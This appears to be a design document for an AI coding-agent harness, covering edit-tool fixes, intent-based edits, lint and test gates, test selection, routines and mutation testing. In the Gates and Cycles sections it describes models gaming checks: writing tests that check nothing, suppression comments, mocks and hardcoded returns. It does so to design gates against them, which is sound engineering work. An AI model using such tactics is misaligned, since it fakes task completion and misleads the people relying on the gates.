- An anchor a model cannot type is not a model error. `&notUnique` reaches the tool as `¬Unique`, because `&not` is a legacy HTML character reference that needs no semicolon, and one `h11` run sent the same mangled anchor five times. Anchor and replacement are both repaired by name, and the result says the text arrived mangled so the next call is not written around the damage. A collapsed rune not followed by an identifier rune is left alone, since there it is the symbol someone meant
- A call carrying `source` is `declare`'s call sent to the wrong tool, and the schema error for it described `new_string` instead, which one run read three times. The tool names `declare` and its fields
- An anchor taken from a read the run has since written over is the largest single cause of a wasted edit turn measured here: 15 of 18 misses, 14 of them anchored on text the run itself wrote. Telling the caller to read the file again spends a turn on bytes the harness already holds, so a stale anchor is answered with the lines where it came closest, numbered the way `read` numbers them. On a successful edit the result stays a line count, because the caller knows what it sent; it carries the region only where the formatter rewrote it
- Other harnesses split three ways on this and none of them close the loop. Anthropic's own text-editor tool spec puts the burden on the model, which must `view` before it edits, and returns no snippet; its written advice is to snapshot a file before allowing an edit, which is what `undo` already keeps. OpenCode formats after writing and does not hand the result back, and formatting the whole file rather than the edited range is filed against it as a bug. Aider lints after every edit and feeds what it finds back as a fresh user message, retrying up to three times, which is a turn each and is documented as costing the round trips. Showing the caller the text is the cheapest of the three, because the harness is holding the bytes either way
- The formatter runs inside the edit call rather than in the gate that fires a moment later. It is the same pass either way, so what changes is only whether the caller can see it: an edit using a symbol it did not import came back as `undefined: utf8` from a gate several turns on, and goimports now adds the import before the call returns. Formatting the whole file rather than the edited span is what the gate already did, and this repository is formatted, so the wider rewrite costs nothing here that it did not cost before
- A third failure mode is an edit that applies and leaves the file unparsable. One recorded `e2` lane replaced a function's header line with a whole new function and orphaned the old body: the call reported success and the failure arrived as `expected declaration, found t` from the test gate several turns on. `str_replace` now parses each Go file it touched before and after, and appends the parse error to an otherwise successful result when the edit is what introduced it. A file that already failed to parse reports nothing, because the break is not this edit's to name
- Both formats are weak on an 8B model (2/10 and 1/10), so M1 keeps local edits small, always re-verifies with a gate rather than trusting `done`, escalates to hosted after one failed edit, and pushes as much as possible to Modifiers and intent edits where the model emits a name or an intent instead of text
- Hosted models use their native format through the same tool surface: `apply_patch` (V4A) for GPT-family, `str_replace` for Claude-family
- A tool nothing can answer is worse than an absent one, since it costs preamble tokens on every turn and a turn each time the model reaches for it. `question` is registered only where an Asker is wired, which a headless sweep, a pipe, and a cron run have none of. Two guards for that one rule is one too many: a default Asker that failed every call kept the tool in the registry past the check meant to drop it, so the option defaults to nothing and absence is the only signal
- Runtime, not tool: n-gram prompt-lookup speculation in llama.cpp for edit-shaped output where most tokens copy the prompt
- Not built: a hosted fast-apply model (Morph, Replace). Extra latency and a paid dependency, and no open-weight small apply model exists to run locally

### Intent edits (exploration, target M3 after Modifiers)

The direction past line ops and named refactors: the model (or a human) states an intent in a few tokens and a resolver produces the code. The resolver is mostly deterministic and store-driven, with a small local model filling only the holes that structure cannot decide. The same resolver is a completion source for Neovim, so it doubles as tab completion over the whole repo.

The bet: most of a change is not the interesting part. Placement, imports, signatures, plumbing, registrations, tests, and formatting follow from the repo, and the store already knows the repo.

**Resolution layers.** Each layer runs only if the one above could not decide.

1. Deterministic from tools: placement after related symbols, import add and order (`goimports`, `ruff`, tsserver), format, stubs from a signature or interface (`impl`, `gopls` fill struct and switch), tags, exports and barrel files, `__all__`
2. Heuristic from the store: naming that matches sibling symbols, the error-handling shape used by neighbours (return, wrap, log), the fixture pattern the package's tests use, which registration table a new route or command joins, where a config field is read and documented, the contract counterpart across the stack (route to client method to type)
3. Small local model, fill-in-the-middle under a grammar constraint, for the one hole that remains (a body, a condition, a message). Prefix and suffix come from the resolved skeleton, so the model writes 5-30 tokens, not a function
4. Escalate to a hosted model when the hole is larger than a body or the intent is ambiguous

**Intent grammar.** A small typed schema, not prose, so a local model cannot emit a malformed intent and a human can type it in a picker:

```
add fn parseTTL(cfg Config) time.Duration in internal/lease near TTL default=30m
add field Config.TTL time.Duration from=env:LEASE_TTL doc="lease lifetime"
add route GET /leases/{id} -> handler getLease client=yes test=yes
add test for parseTTL like=TestTTL
like Foo: add Bar            # mirror an existing symbol's shape
```

`like` is the strongest primitive: mirror the structure of a named sibling (its imports, error style, test, registration) with names substituted. It reuses the similarity signals from the store in reverse.

**What the resolver can take off the model, by kind of change.**

- Add a function or method: placement, imports, doc line in repo style, test stub with the package's fixture pattern, callers if the intent names them
- Add a field or option: struct field, constructor or options function, env or config read, default, validation, docs, the test table row
- Add a route or command: handler stub, registration in the router or CLI table, generated client method and type on the frontend, contract node in the store, E2E test stub
- Change a signature: every caller updated (LSP rename plus argument insertion), tests updated, wrappers regenerated
- Add a type: constructor, `String`, JSON tags, mock or fake if an interface, exhaustive switch cases filled where a new enum member appears
- Delete: dead-code check through the graph before removal, imports pruned, docs and registrations dropped
- Cross-file consistency after any edit: the "what else must change" list from the graph (callers, tests, contract counterparts, docs), offered as a next-edit queue instead of predicted by a model

**Extreme tab completion for humans.** In Neovim the same resolver drives a completion source: typing `func parseTTL(` offers the resolved skeleton with imports and a test, `:Wavez add …` accepts an intent line, and after any manual edit the next-edit queue lists what the graph says now needs attention. Where a ranking is needed among candidates, a 1.5B next-edit model (Sweep's open model or Continue's Instinct, both local) can order them. The location comes from the graph, not the model, which is the reverse of Copilot NES's location-then-generation split.

**Where it stops.** Naming when no sibling sets the convention, whether a default is a rule or a magic number, error-handling shape when neighbours disagree, and anything with business meaning. Those become explicit slots in the intent (with repo-derived defaults) or a hole for the model. The resolver never guesses semantics silently. A wrong resolution must be visible in the diff and cheap to reject.

**Token arithmetic.** An intent is 10-30 output tokens. A hole fill is 5-30. Everything else is generated at CPU speed and verified by gates. Against 50-200 lines emitted as text at 18 tok/s locally, that is the difference between seconds and minutes per change, and it composes: Modifiers cover named refactors, intents cover additions and plumbing, line ops cover the residue.

**Prior art.** Zed's Zeta2 and Cursor's Tab feed diff history and LSP context to a model, Copilot NES splits location and generation, Aider's architect mode has a strong model describe and a weak one edit (30-50% cheaper reported), Serena inserts after symbols instead of round-tripping files, ast-grep and Comby rewrite with metavariables, Hazel and program sketching separate skeleton from holes, llama.cpp grammars and FIM tokens constrain what a small model may write. Nothing found combines a repo graph, deterministic resolvers, and grammar-constrained hole filling into one edit tool.

**Measured (`_ai_/demos/intent-edits`).** Twenty commits from gh-repo-dashboard and calcipy, added lines sorted by hand: 31% deterministic, 24% convention (right from siblings), 24% hole, 20% judgment. Resolver alone covers 55%, resolver plus a hole fill 80%. Intent cost averaged 68 tokens for 123 added lines, so the compression is real but linear in the number of additions, not the number of lines. The corpus demanded five grammar extensions: a `change`/`rename` verb (6 of 20 commits), a `like` chain that mirrors a cluster of symbols, hole-sizing fields (`wraps=`, `env=`, `returns=`, `enum=`) that bound what the model writes, a `fix: <diagnosis>` verb, and non-code verbs (`add const`, `add hook`, `bump dep`). A Go prototype (`intentgo`, ~1k lines on `go/ast` and `x/tools/imports`) reproduced placement, signature, doc style, and imports exactly on real commits in 60-110 ms with the body as one hole line. Field placement defaults to end of struct where humans group mid-struct, and `like` needs its own signature slot or it silently carries the sibling's parameters. Nothing it writes fails `gofmt`. The timing demo (three Go tasks, small to large) set the bar: Sonnet through `claude -p` averaged 25.8 s per edit writing whole files (2-5k output tokens), qwen3:8b writing whole files averaged 161 s and was mostly wrong, and intent line plus hole fill on qwen3:8b averaged 6.7 s (8-20 tokens of intent, 17-109 of body). Speed bar cleared by 3.9x. Equivalence bar not cleared with the 8B model in one shot: the hole was right for a 3-line loop and wrong for URL edge cases and an enum idiom. The fix is not batching (the failures were reasoning inside one small generation, batching saves ~20-30% of wall time from repeated prompt overhead) but a verify-and-retry loop on the hole (compile, vet, covering tests, cheap because the hole is tens of tokens) and escalation of judgment-sized holes to a hosted model, which still writes 50-200 tokens instead of 5k, so a resolver plus hosted hole should land near 5-8 s and correct. A FIM-tuned local model (`qwen2.5-coder`) is the other lever, since qwen3:8b has no infill support.

The bet holds on the numbers: the resolver removes most of the tokens and most of the time. What is left is choosing the model per hole and retrying against gates.

### Structural rules (M1 gate, M2 routine, M3 mining)

Rules over syntax trees are the deterministic half of "code quality" and a second engine for editing. Two tools, two roles, both shelled out (neither has a Go binding).

- `ast-grep` is the embedded structural engine: MIT, tree-sitter, YAML rules with `rule`, `constraints`, `fix`, an LSP with quick fixes, fast enough to gate on every edit. Project convention rules live as YAML files in the repo and `.wavez.pkl` points at them by glob. Examples: no `fmt.Println`, use the project logger, wrap errors with `%w`, no raw SQL outside `db/`
- Semgrep Community Edition is an optional routine, not a gate: LGPL engine, single-file taint, `--baseline-commit` for diff-aware findings, `fix:` autofix, JSON and SARIF. Its registry rules carry a non-commercial license, so only own rules ship by default. Pro (cross-file taint) is the user's call per project
- Layering per language, in gate order: formatter (`gofmt`/`gofumpt`, `ruff format`, Biome), native linter with autofix (`golangci-lint --fix --new-from-rev`, `ruff --fix`, Biome or Oxlint), `ast-grep` convention rules, then the type checker. Only the first three fit a sub-2 s per-edit gate. Semgrep and full type checks run on the commit routine

Roles beyond linting:

- Capability-delta risk: `semgrep --baseline-commit` or a diff of `ast-grep` matches flags new subprocess, eval, network, raw SQL, or auth changes in the change set. Feeds the deferred risk score and the permission gate
- Codemods: `ast-grep` rewrite with metavariables is the engine behind the intent grammar's `change` and `rename` verbs and behind Modifiers that are not LSP operations
- Rule violation becomes a Modifier call: an autofix from `ast-grep` or `fix:` is applied through the Modifier path (reviewable, revertible), and only rule id, message, `file:line`, and the fix hunk reach the model
- Conventions replace prose: a rule the agent must obey is written once as YAML and enforced, instead of stated in an instructions file the model may or may not follow
- Matches land in the code-intelligence store as annotations keyed to symbol ids, so gates and the risk score ask "does this symbol touch a flagged pattern" without rescanning
- Convention mining (M3, exploration): derive a rule from a corrected diff or from what sibling code does, propose it, the user accepts. No tool does this today

### Gates (M1)

- Triggered by change events from the edit tool and from a file watcher, never by the model deciding to test. Every change a tool makes is fed to the debounced runner and what its gates found reaches the model as its own turn before the next request, so an edit never waits on a gate and a gate never interrupts one. Until this was wired, gates ran only in the verification round at the end of a run, which is the whole per-edit feedback loop reduced to a final exam
- A gate blocks on broken work and advises on weak work. A build that fails, a test that fails, a diagnostic error: those are facts the run has to fix, and they reach the model and hold the verification round open. A test that checks nothing, a mutant no test killed, a change that added no test: those describe how good the work is, so they are recorded as advisories in the gate log for the user and never reach the model. The reason is that the model's cheapest way to satisfy a quality complaint is to write whatever silences it, which is worse than the finding. `wavez -mutate` is the exception that proves the rule: it exits nonzero on a survivor because there a human asked the question
- A failing gate always says something. A build failure whose frames did not survive trimming reached the model as a bare gate name with nothing after it, and it spent 26 turns guessing; a gate that cannot describe its own failure now says that instead, which is at least a direction
- `go test` abstains before running when the change set holds no Go file, since its selection can only guess a package from a directory (a README edit selected the module root, and `go test .` there reported "no Go files" as a failure with nothing after it), and abstains on a package holding no test file rather than failing. The abstention rule distinguishes a selection that drifted off tests that exist, which is a failure, from a change set with no work for the gate, which is not: reporting the second as a failure tells every run in a test-less package to write a test, on every turn
- LSP diagnostics are a gate in the per-edit order, after the formatter and convention rules and before the tests, filtered to the changed files and to errors, since warnings and hints are what the formatter and linter pre-passes already own. Measured with gopls on this repo: 55 ms to start and initialize, 1.5-5 ms for a repeated single-file edit, and 1.18 s worst case across 37 files, which is what keeps it inside the per-edit budget. gopls absent from the machine is reported without failing the run, because the only fix available to a run told to install it is to weaken the check
- Changed-file detection stores its own last-known-good marker (SHA or op ID), not a session ID
- Test selection reads the code-intelligence store (see that section): symbols, edges, coverage. Adapters feed it, gates query it, and every other consumer reads the same store
- Coverage adapters (`codegraph` and tree-sitter feed symbols and edges, see Code intelligence): coverage.py `--cov-context=test` for Python line-to-test (+8% over plain coverage, works under xdist), a per-test `go test -run` coverprofile loop for Go. `vitest --changed` or `testpick` for JS later. Demo: `_ai_/demos/code-store-python`
- Selection order: line-to-test where the map covers the changed lines, transitive importers of changed files otherwise, whole package as the last fallback. Measured on this repo once the map was wired: a change to covered lines selects 12 tests of 356, where the same change at importer level selected 210. A change to a line no test executes (a blank line, an import) correctly falls through, so line level is not always reachable and is not meant to be Measured on gh-repo-dashboard: line-level cuts a 522-test suite to 3-5 tests for a one-function change, importer-level returns 383 for a widely imported file, so the coverage map ships in M1
- The coverage map is built once per clone (249 s for 522 Go tests with 8 workers, 27x a plain run; 118 s for this repo's 356) and updated incrementally: only tests whose covered files changed by content hash re-run. It builds in the background at startup, the way the code index does, and selection stays at importer level until every test in the module has been measured. Readiness is map-level and persisted, so a second process reads a finished map rather than rebuilding it, and one test that cannot run leaves the map incomplete rather than letting selection quietly omit it
- A short headless run exits before a first build finishes, so the map is built by whatever process lives long enough. That is the daemon in practice
- The build runs in the background at startup, the way the code index absorbs its own cold cost, and selection stays at importer level until it finishes. A map still building answers "no test covers this line" for every test it has not measured yet, so selection asks whether the map is complete before it asks what covers a line: three tests from a half-built map is a wrong answer where importer level is a coarse one. A test that would not run leaves the map incomplete for the same reason, and the build records what it did in the gate log so a map that never arrived is visible. The build holds the gates' own `go test` resource key in shared mode for one test at a time, so an edit's gate run preempts it instead of waiting out the whole map
- Full run on a cadence: after N selective passes, after a time threshold, or when the map flags an untracked file
- Debounce and coalesce edits into one run. Gates sharing a resource serialize, others run in parallel. A gate that rewrites the worktree runs to completion before any gate that reads it, which resource keys alone cannot express: the formatter excluded only other formatters, so it was rewriting files while lint, go-test, and the language server read them, and all 25 retractions recorded over an unchanged tree belong to those three
- On pass: a boolean and timestamp in the gate log, nothing to the model. On fail: failing test names and frames that touch changed files, parsed from `go test -json`, JUnit XML, or pytest's machine output
- A test the run itself wrote is checked against the fail-to-pass property from the Cycles section: revert the run's non-test hunks in a throwaway jj workspace and re-run only the tests that run added or changed. One that still passes there is reported as `survives-revert`, since it checks nothing about the change. It is an advisory: the gate passes carrying it, so a weak test never blocks a run or reaches the model. Measured on this repo at 1.4-1.6 s (a `jj workspace add` at 0.31 s plus one narrow package test against the shared build cache), which is cheap enough to sit in the verification round rather than run on demand like the mutation gate. It bounds what a green suite means and does not establish it: a run that makes the wrong change and writes a test asserting that wrong behavior produces a test which does die on revert, so this gate passes it. That case is left to the diff review, because it is not decidable from the diff text
- An abstention reaches the gate log with its reason and reaches the model with nothing. The line is whether the model could act on the reason: telling a run that changed only source that no test detects its change reads as "write a test", and one that satisfies that by writing any test at all has cheated the condition rather than met it. Observed doing exactly that, on a doc-comment change that needed no test at all
- Every gate records how many units it examined, and a gate that examined nothing has abstained rather than passed. Abstaining is fine when the change set held no work for it (no Go files to format) and is a failure when it did (`go test -run` exits 0 when its pattern matches no test, so a drifted selection reports green having run nothing). Without the count, the two are the same line in the log
- Formatter, native linter autofix, and `ast-grep` convention rules run as pre-passes before the model sees the diff (see Structural rules). LSP diagnostics after the edit are a gate too
- Config discovered from `package.json`, `Makefile`, `pyproject.toml`, `mise.toml`, with a one-time prompt to confirm
- Repairing a lint finding with a second model in parallel is the wrong shape, however cheap that model is. Two writers on one tree is what the directory-subtree leases exist to prevent, so a repair turn would have to serialize behind the main run anyway, and the cost being paid is the turn rather than the tokens in it. A fix with no judgment in it belongs in `internal/gofix`, where it costs no turn and no model at all, and a fix with judgment in it is the run's own work. What is worth measuring instead is routing a turn whose only feedback is lint findings down to the fast tier, which saves hosted spend and no turns, and which is unbuilt because the fast tier is also the one that emits malformed calls
- The linter's own config contradicts itself in one place: `gocritic`'s `unnamedResult` asks a three-result function to name its results and `nonamedreturns` refuses the names. `internal/gofix.AddParallelCalls` hit both in one session and the way out was a two-result signature, which was the better API anyway. `.golangci.toml` is template-owned, so `unnamedResult` is disabled in [my_go_template](https://github.com/KyleKing/my_go_template) rather than here, and `nonamedreturns` is the rule that wins. Nothing else in the config has earned a change: `nlreturn` accounts for 3 of the 54 findings a model saw from an undegraded report, which is not evidence about a rule
- A mechanical fix belongs beside gofmt, not in front of a model. `internal/gofix` holds the deterministic repairs the harness makes before a gate reports anything, and the format gate runs them: the first is the missing `t.Parallel()`, which was 14 of the 54 findings a model saw from an undegraded lint report and has no judgment in it. The pass reads the AST for offsets and splices text, so comments and formatting survive, and it leaves alone what would break: a body using `t.Setenv` or `t.Chdir`, a `//nolint:paralleltest` a human wrote, `TestMain`, a fixture under `testdata`, and a subtest closure whose receiver is not named `t` gets its own name. The check that it is not written too broadly is that it finds nothing to do in any of this repository's 215 test files, which already lint clean
- A gate does not repeat what another gate is already saying. The linter type-checks before it lints, so a package that will not build reports every type error as a lint finding, and 130 of the 184 lint findings logged against a model across 54 threads were exactly that: the same compile error the build gate reported in the same round. The lint gate drops them and abstains when nothing else is left. Of the 54 that remain, 14 are a missing `t.Parallel()`, which `internal/gofix` now writes, 32 are a missing doc comment on an exported symbol, and 8 are everything else, so 78% of what a model saw was either a duplicate or a fix with no judgment in it. Those counts exclude a further 76 findings that reached a model as a raw dump under "no output line named a changed file", which is the gate path bug rather than the model: a change path resolved against the root twice, nothing matched the changed-file filter, and the same undifferentiated output repeated for four or five rounds. Read the repeat counts in the corpus before that fix as evidence about the harness and not about the run

### Routines (M2)

- Defined in `.wavez.pkl` per project, amending a Wavez schema (`routines` in `internal/config/pkl/Wavez.pkl`). Gates are shipped as built-in routines named `gate-<gate>` the user can override or disable there; disabling one drops that gate from the change pipeline, which is the only way the routine layer reaches into gates
- `hk.pkl` can `import ".wavez.pkl"` so a git hook runs the same routine the agent does (verified in the since-removed `_ai_/demos/pkl-routines` demo, re-verified against the shipped schema on hk 1.53: `hk validate` still fails under the default `pklr` backend with `key not found: 0`, and passes with `HK_PKL_BACKEND=pkl`). Wavez does not depend on hk. `internal/config`'s import test (`hkimport_test.go`) pins the pkl half of that path
- Semantics borrowed from Hatchet: DAG steps with parents, concurrency keys with `cancel-in-progress` and `round-robin`, triggers (change event, manual, schedule, thread lifecycle). Rate limits, durable sleep, and sticky assignment are dropped. The schedule and thread-lifecycle triggers are declared in the schema and carried through compile, and no scheduler fires them yet, since the scheduler is another lane's work
- Steps invoke CLIs in any language through an action registry (name, params, validator, handler) rather than shell strings. Built-in actions are `gate.<name>` for each gate and `run` for an argv, with `dir` refused outside the project root. Validation runs at config load, so a routine naming an unknown action or forming a cycle fails App construction, never a run
- Change-triggered routines run after the gates on the same debounced batch, wrapped around `gate.RunFunc`; the gate result the model sees is unchanged by a routine's outcome
- Locks: directory-subtree leases keyed on the write target, advisory with TTL, commit downgrades to rebase-risk. Steps sharing a resource key serialize on the same `gate.ResourceSet` the gates use
- Run history and trimmed outputs stored per routine in `.wavez/routines.log`, JSON lines like the gate log. Failure output uses the same trimming as gates, with the last 20 lines as the fallback when nothing references a changed file (a manual run has no change set to trim against)
- Compiled DAG is a disposable artifact keyed by the pkl content hash. Drift means recompile, not patch. It is held in memory only: what compiling saves is validation and binding, and the pkl evaluation it would otherwise skip is ~130 µs warm, so a persisted artifact would carry drift risk for nothing. Measured (`internal/routine` benchmarks, M2 Pro): compiling a built-in plus a two-step DAG takes ~1.7 µs, and the runner adds ~0.9 µs per step beyond the action itself, so neither is worth caching across a reload

### External triggers and queued commands (M2, after Routines)

Routines already declare triggers for a change event, a manual run, a schedule, and thread
lifecycle, and the scheduler that fires the last two is unbuilt. The trigger that keeps
coming up is a fifth: something outside the repo changed. jj has no hook layer the way git
does, so anything that should happen once a commit lands (push it, open the PR, merge it
after CI goes green) has nowhere to attach, and the command that would do it gets typed by
hand at the moment it becomes possible rather than queued when the intent forms.

Two halves, and the first is smaller than it looks.

**A queue of commands attached to a condition.** "Push this when the gates pass." "Merge
the PR when every check is green." The command is an argv through the existing `run`
action, so a queued command is a routine whose trigger has not fired yet, and its history
goes in the `.wavez/routines.log` that already exists. What the queue adds over the
declared schedule trigger is a predicate on external state instead of a clock.

**Watchers that poll.** A watcher is a routine with a poll trigger: evaluate this predicate
every N (3 minutes is the interval that came out of wanting it), fire the DAG when it
flips. The GitHub cases are the concrete ones, because each is one `gh` call: a human
opened a PR, I was added as a reviewer, review comments landed on a PR I own, CI finished.
The interval matters more than the mechanism, since the whole point is that nobody is
watching the tab.

Where a watcher is written is open. `mani`'s shape is right (a directory of named,
searchable, self-describing tasks) and its YAML is not, because this project already
carries pkl and a second declarative format earns nothing. Two candidates, neither
settled: markdown with frontmatter, so a watcher reads as documentation and the predicate
is a fenced block, or a shell script with a formatted comment header, so the file runs on
its own and the harness reads the name, interval, and description off the top. Either has
to pass the same test, which is that a watcher written by hand three months ago is still
findable by what it does.

Two things this must not become. A watcher that starts a thread on its own is the claim
Cycles exist to distrust, so the default outcome is a proposal in the Inbox rather than a
run. And a poll authenticated as the user reaches a network service on a timer with nobody
watching, so the credential it uses, the scopes it needs, the rate limit it lives inside,
and what a failing poll does all get decided before the first watcher ships. A watcher that
silently stops polling is worse than one that was never written, because the absence of an
alert reads as the absence of the event.


A notification is a nudge and the queue is the truth. swarm-forge makes its
tmux wake-ups deliberately lossy: one only prompts an idle agent to check a
durable inbox, and a busy agent ignores it. That is the rule a poll has to
follow here, because a watcher whose poll result *is* the message loses the
event whenever the poll is missed, while one that writes a proposal into the
Inbox and then nudges cannot. It is also what would make a completion wake
safe to build, since a missed wake costs a delay and never an event.

### Cycles (M2)

A Cycle is a named, reusable, phased way of working on a class of problem, defined in `.wavez.pkl` beside routines. Routines are deterministic DAGs with no model in them; a Cycle is the opposite arrangement, model work in each phase with a deterministic check between. The fix cycle is the first one: reproduce, fix, generalize. Others are expected (red-green-refactor for a feature, inventory-transform-verify for a migration), which is why the concept is named rather than the one process being hard-coded.

The distinction from a prompt that describes the same steps, or from a Skill that packages such a prompt, is one property: **a phase advances on a Condition the harness evaluates, never on the model reporting it is done.** That is the same rule the agent loop already follows at turn granularity, so `Condition` is shared between a Loop's stop reasons and a phase's exit gate. [docs/glossary.md](docs/glossary.md) has the lifecycle diagrams.

**The fix cycle's phases and their exit conditions.**

| Phase | Exits when |
|---|---|
| Reproduce | An artifact demonstrably fails on the current tree: a failing test, a captured log line, or an experiment whose output flips |
| Fix | That artifact passes and the normal gates are green |
| Generalize | A recorded sweep for the same cause has every hit either fixed or dismissed with a reason, or the sweep is shown not to discriminate and a durable artifact is named instead |

The reproduce and fix conditions are checkable today by reverting a change's non-test hunks in a throwaway worktree and re-running its tests. Measured over 30 commits of this repo's history: 16 of the 19 that touched Go code were fail-to-pass, 3 shipped untested code, and none shipped a test that survives its own fix being undone. At ~7 s per commit this is cheap enough to gate on. Read another way it is mutation testing with one maximally relevant mutant, undo the fix, which is why the same machinery serves the Cycles exit gate and the mutation gate below.

**What shipped.** `internal/condition` holds the shared `Condition[S]` (`Holds(ctx, state) (Verdict, error)`, where a Verdict is a name, a reason, and whether it holds). A Loop's Outcome reports its stop as that Verdict, and a phase's exit gate returns the same shape one level up. `internal/cycle` runs a Cycle: each phase gets a narrowed tool registry, a standing goal, and an exit Condition; the Runner drives the phase's Loop up to `maxAttempts` times (default 2), evaluates the Condition after each, and ends the Cycle as `condition_unmet` carrying the reason once the bound is spent. `complete` is only reachable when every phase's Condition held. Every transition and verdict is a `KindCycle` event on the thread, and every ledger row is a `KindHypothesis` event, so the transcript renders why a phase advanced and not only that it did.

The three built-in Conditions are code, not configuration: `artifact-fails` re-runs the tests the change set declares (via `gate.ChangedTests`, the same line-touched-test parse the fail-to-pass gate uses) and holds when one fails; `artifact-passes-gates-green` holds when they all pass and the phase's Loop ended `complete`, which for a gated phase means the verification round including fail-to-pass was green; `sweep-accounted` re-runs the recorded `ast-grep` pattern and holds when every remaining hit carries a dismissal reason, or when the named durable artifact exists and is in the Cycle's change set. That last clause is what turns "I wrote a helper instead" from a claim into a check. Only tests are probed: an artifact the harness re-runs has to be one it can run itself, so a captured log line or a flipping experiment still needs to be wrapped in a test to count. That is a narrowing of the table above and it is deliberate, since running a command the model wrote to decide the phase is over would put model text where the measurement belongs.

Each phase runs in its own thread (`<thread>.<phase>.<attempt>`) under the cycle's thread, which is what keeps the prior phase's transcript out of the next phase's prefix by construction rather than by trimming. The reproduce phase is ungated, because verification would spend its rounds undoing the failing test the phase exists to write. A project defines further cycles in `.wavez.pkl` (`cycles`, `Cycle`, `Phase`) naming one of the three Conditions per phase; a same-named definition replaces the built-in outright.

**Tool narrowing is a routing lever, not a fence.** A phase declares which tools it may use, and the reason is efficiency rather than safety: a narrow phase with a narrow tool surface is a job a small local model can drive, which is where the token and latency argument lives. It is explicitly not a guarantee. A model that cannot edit source can still reach a green gate through a suppression comment, a mock, or a hardcoded return, so the exit conditions have to be strong enough that cheating them is harder than doing the work. That is the argument for the mutation gate, not for tighter fences.

**Concurrency comes from independence, not from fan-out.** Hypotheses that mutate the working tree cannot run beside each other, so most sequences stay sequential. The opportunity is detecting genuinely independent streams (read-only experiments, and mutating ones isolated in their own jj workspace) and running those concurrently, keyed on what each touches, which is the same subtree-lease question the scheduler already answers for threads. Blanket fan-out over hypotheses is not the design.

**What crosses a phase boundary.** Measured over 11 real transcripts (318 KB, ~79.5k tokens): 74.6% is model prose, 21.2% tool output, 1.8% bookkeeping, and only 2.4% is content no tool can produce again. The session's largest investigation distils to a hypothesis ledger of 360 tokens: candidate cause, experiment, observation, verdict, one row each. That ledger, the standing goal, and the change set are what a phase carries; everything else is re-read on demand, which also cannot go stale the way a carried summary can.

Attempts themselves need no storage, since jj snapshots the working copy on every command and history rewriting does not touch the operation log (measured: after squashing a commit away, `jj --at-op` still reads its content and the op log grew rather than shrank). That makes the op log good working memory and useless as institutional memory: it is local, and a fresh clone of a squash-merged branch has neither the commits nor the log. Only a tracked file survives, which is the real argument for the generalize phase, since its output is the only one that does.

**Where the sweep works.** Measured in the since-removed `_ai_/demos/pattern-sweep` demo on two real causes: a local syntactic cause (a gate returning pass after examining nothing) resolved to an `ast-grep` pattern that found all four sibling sites across three files with no false positives, while a dataflow cause spanning functions returned 100 hits of noise. So the generalize phase is seedable, not automatic, and its exit condition must accept "the sweep does not discriminate here, and the durable artifact is a helper or a boundary test instead".

### Mutation testing as a command (M3, run on demand)

Coverage says a line ran, not that anything checked it, and this project has already shipped a gate that reported green having run zero tests. Mutation testing is the general form of that question.

`wavez -mutate` runs it over the working copy's own changed lines today. Ranges come from parsing the hunk headers of `jj diff --git`, so the gate examines the lines that changed rather than the files that contain them, and test files are excluded because mutating a test asks whether the tests test themselves.

- Three operators ship: conditional boundary (`<` to `<=`), negated condition (`==` to `!=`), and flipped bool literal. Each is a single-token substitution, which is what guarantees the mutant still compiles, so a survivor always means the suite ignored a real behavior change rather than that the mutant failed to build. Removed statement and zero-valued return are the two designed operators still missing; both can produce a program that does not build (an unused import, a type the value has to match), so they need a build check or type information the gate does not gather yet
- A surviving mutant is reported as the advisory `survived-mutant`, and a run that hit its mutant cap reports `mutants-dropped` rather than staying silent, because a partial pass is not a pass. Both are advisories, so the gate passes carrying them and only `wavez -mutate` turns one into a nonzero exit
- Mutants are written into a throwaway jj workspace, never the tree being edited, so a crashed run cannot leave mutated source behind. `jj workspace add` costs 0.31 s for this repo's 628 files and shares the main tree's Go build cache. It must be given `-r @`: by default jj bases a new workspace on the *parent* of the current working-copy commit, so every uncommitted change is missing and the gate would examine a tree without the change it was asked about
- It stays out of the default gate list. Measured on this repo, 6.35 s per mutant at package-level selection, which makes a 30-mutant change 190 s and a verification round unusable. That number is a property of running whole packages, so the cost falls with the coverage map: line-level selection runs a handful of tests per mutant instead of a package
- It answers whether the suite would notice a behavior change, not whether the change was the one asked for. Measured on the append-instead-of-replace case in the Gates section: the gate produced one mutant and the suite killed it, so a change that did the wrong thing scored clean. Coverage, the fail-to-pass gate, and mutation all bound what a green suite means, and none of them reads the task
- It is not on the roadmap as a gate and is not becoming one. Reviewed against what it costs: it stays out of the default gate list, its findings are advisories the model is never told, and the only thing that reads them is `wavez -mutate`. Dropping the `Gate` wrapper and keeping the command was considered and is not worth doing, because `cmd/wavez/mutate.go` invokes the gate directly, so the wrapper is the command's implementation rather than a layer over it
- `gremlins` is the maintained Go tool (v0.6.0, December 2025) and already skips uncovered mutants and gates on a score, but it runs a whole module and gathers full coverage first, which is minutes here, and it has no diff mode. It stays a candidate for a cadence backstop, not for the per-run gate

### Modifiers (M3)

- Tools the model calls with a symbol and a target: rename, move, extract, inline, add import, organize imports, stub from signature or interface, fill struct, add struct tag, structural rewrite by pattern
- Backends: `gopls` CLI and LSP for Go, `ts-morph` and tsserver for TypeScript, `rope` and `ty` LSP for Python, `ast-grep` for cross-language pattern rewrites. The LSP client the diagnostics gate already drives (`charmbracelet/x/powernap`, what Crush drives gopls with) covers rename and code actions too. `go.lsp.dev/protocol` was the earlier choice and is types-only with no process handling, and its 2026 regeneration requires a newer Go than this module targets
- Result returned to the model is the file list and line counts, not the diff, unless a gate fails
- Each modifier is one deterministic operation. A modifier that partially applies rolls back
- `apply-fix` applies an `ast-grep` or Semgrep autofix as a modifier, and `rewrite` runs an `ast-grep` pattern with metavariables for structural changes LSP does not offer
- Serena's symbol tools are the reference for the token argument

### Threads and scheduling (M2)

- A thread is a directory set plus a history plus a compaction state. Threads across directories are the norm, worktrees optional
- Event log per thread with a retention policy from day one: a ring buffer in memory and overflow to disk on both daemon and client. The daemon and TUI spike held 105k events fine at 30 MB daemon RSS but showed the client's heap-driven CPU creep and the daemon's unbounded slice growth. Fan-out to subscribers blocks on backlog replay and sheds only on live streams, and per-connection channels are never closed by a producer
- Scheduler phases: edit (threads write, gates queue) and execute (gates and routines run, edits pause for the touched subtrees). The phase is derived from what holds admission rather than set, so it cannot disagree with what is running
